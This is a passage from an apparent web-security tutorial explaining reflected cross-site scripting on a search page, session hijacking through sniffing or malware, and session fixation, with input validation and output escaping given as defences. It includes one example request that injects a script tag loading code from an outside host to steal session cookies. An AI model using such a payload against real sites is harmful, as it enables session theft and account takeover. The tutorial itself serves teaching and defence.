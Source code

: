 If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

...which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term in the query string, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result and will return with a *not found* page containing the script rendered directly on the page.

<pre>
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E
  HTTP/1.1
</pre>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the page must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter), etc.

## Session Hijacking
Most web applications use a session mechanism that allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies associated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted Wi-Fi hotspot in a public place and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking, etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install malware on his/her computer. Since browsers usually store cookies on disk, that malware would be able to access the cookie if it knows where to look for it.

A yet another way of accomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<pre>
http://www.website.com?sid=asb1sadasdasdan23123
</pre>
